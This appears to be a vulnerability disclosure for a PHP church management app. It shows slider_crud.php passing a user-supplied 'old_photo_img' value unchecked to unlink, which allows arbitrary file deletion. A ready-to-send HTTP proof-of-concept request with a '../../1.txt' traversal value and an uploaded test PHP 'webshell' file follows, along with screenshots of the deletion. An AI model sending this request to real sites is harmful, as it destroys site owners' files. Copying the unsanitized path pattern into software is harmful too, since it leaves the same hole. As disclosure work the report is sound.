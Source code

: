 ### Vulnerability file address

In line 55 of `church/admin/app/slider_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo_img']);`,` $_POST['old_photo_img']` parameters have not been restricted, which causes any file to be deleted

```php
<?php 
session_start();
 include '../../assets/constant/config.php';
 
 try {
		$conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
		$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);


		if (isset($_POST['submit'])) 
		{
		$uploadDir = '../../assets/images/';
        if ($_FILES['photo']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . $_FILES["photo"]["name"];
            $originalName = basename($_FILES['photo']['name']);
            $extension = pathinfo($originalName, PATHINFO_EXTENSION);

            // Generate a new unique file name
            $newName = uniqid() . '.' . $extension;

            // Set the path to the new file location
            $newFilePath = $uploadDir . $newName;

            // Upload the file to the server
            if (move_uploaded_file($_FILES['photo']['tmp_name'], $newFilePath)) {
                $img = $newName;
            } else {
                echo 'There was an error uploading the file.';
            }
        }

			$stmt = $conn->prepare("INSERT INTO `slider`(`photo`,`heading`,`heading1`) VALUES (?,?,?)");

			$stmt->execute([$img,$_POST['heading'],$_POST['heading1']]);

			$_SESSION['success']="success";
		

			header("location:../manage_slider.php" ); 

		}
	
	

		if (isset($_POST['update'])) {

    if ($_FILES['photo']['tmp_name'] != '') {
        $file_extension = pathinfo($_FILES["photo"]["name"], PATHINFO_EXTENSION);
        $new_filename = uniqid() . '.' . $file_extension;
        $filepath = "../../assets/images/" . $new_filename;

        if (move_uploaded_file($_FILES["photo"]["tmp_name"], $filepath)) {
            $img = $new_filename;

            @unlink("../../assets/images/" . $_POST['old_photo_img']);
        }
    } else {
        $img = $_POST['old_photo_img'];
    }
```

### POC

```http
POST /church/admin/app/slider_crud.php HTTP/1.1
Host: www.church.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=kecn6qqrggjnvlpgliqeq951j0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 399

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo_img"

../../1.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo";filename="6666.php"

<?php echo "this is webshell test"; ?>
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--

```

### Attack results pictures

First, we create a `1.txt` file in the `church/` directory

![image-20250221164146551](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211641596.png)



Then we execute the above poc to attack

![image-20250221164210404](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211642451.png)



Files are deleted after the attack is successful

![image-20250221164224564](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211642602.png)
